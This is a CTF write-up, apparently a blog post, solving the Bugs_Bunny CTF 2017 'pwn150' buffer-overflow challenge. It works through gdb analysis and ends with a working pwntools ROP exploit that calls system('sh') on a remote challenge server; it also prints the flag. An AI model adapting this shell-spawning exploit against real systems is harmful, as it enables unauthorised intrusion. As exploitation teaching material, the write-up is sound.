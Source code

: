 ```yaml
---
title: Bugs_Bunny CTF 2017 -Pwn150
subtitle: s
date: 2017-03-07
tags: ["Posts",Bugs_bunny CTF", "Pwn"]
---
```



Hello guys, This writeup is for  _ the bugs_bunny CTF 2017 _ pwn series.  


challenge: **pwn150**


first 3 steps:

1. file :

![image](/img/pwn150/1.png)

2. strings :

![image](/img/pwn150/2.png)

3. checksec :

![image](/img/pwn150/3.png)



Informations Gathered:  
&nbsp;	Its a 64-bit binary with NX enabled and the elf contains `"/bin/date"` and a call to `system()`  
&nbsp;	Two functions other than main: Hello and today.


why it matters:  
	* 64-bit		:	Parameters have to be passed in registers. Register's size is 64-bit (Too obvious :P)
	* NX-enabled 	:   Typical shellcode on stack wont work as the Stack is no longer Executable. 


now, we run the binary:

`./pwn150`

![image](/img/pwn150/4.png)


oh, seems like we are given a buffer overflow again. :(


`objdump -d pwn150 -M intel`

![image](/img/pwn150/5.png)


ok, so today function gives date and hence uses `system("/bin/date")` and Hello gets the input.


now lets fire my fav gdb-peda,


`gdb -q pwn150`


`b main`  
`b Hello`  
`pattern_create 150`  

![image](/img/pwn150/6.png)


Now, all set to run the binary and find the offset to RIP  
r  
oh, its exits :( but why??, i expected it to break at Hello, without that how can i get the offset	

![image](/img/pwn150/7.png)


ok, when in trouble, google should help, if not satisfied then ask your teammates.


My senior, @jenish said,a call to `system()` forks the process and gdb follows the child process by default and hence i had to set it in parent mode


`show follow-fork-mode #gives child  
set follow-fork-mode parent`
r

![image](/img/pwn150/8.png)

enter input fron pattern_create



<figure>
	<a href="/img/pwn150/9.png"><img src="/img/pwn150/9.png"></a>
	
</figure>



oh cool, the offset for RBP is 80 and hence for RIP its 88.


Data at hand:
	
1. Buffer Overflow
2. RIP offset=88
3. system() is called.
4. so, if i have /bin/sh in elf, its a one shot ROP challenge. Let me check this out

```python
from pwn import *
elf=ELF('pwn150')
hex(elf.search('/bin/sh').next())#fail
hex(elf.search('/bin/bash').next())#fail
hex(elf.search('sh').next())#success
```

![image](/img/pwn150/10.png)


Final plan:


1. Fill buffer and overwrite RBP with "A"*80+"B"*8 
2. Overwrite RIP with ROP gadget "pop rdi;ret"
3. then put pointer to sh on stack
4. with rdi having pointer to sh, call system()
5. that should suffice


finding the ROP gadgets can be done with ROPgadget or the powerful pwntools.


![image](/img/pwn150/12.png)


Final exploit:
```python

from pwn import *

system=0x40075f			# call system
pop_ret=0x0400883 		# pop edi; ret
sh=0x4003ef				# "sh" in elf
pay="A"*88
pay+=p64(pop_ret)
pay+=p64(sh)
pay+=p64(system)
#print pay

#r=process('./pwn150')
r=remote('54.67.102.66','5253')
r.recv()
r.send(pay)
r.interactive()

#r.sendline("cat /home/pwn150/flag")

#Bugs_Bunny{did_i_help_you_Solve_it!oHH_talk_to_hacker:D}

```

![image](/img/pwn150/11.png)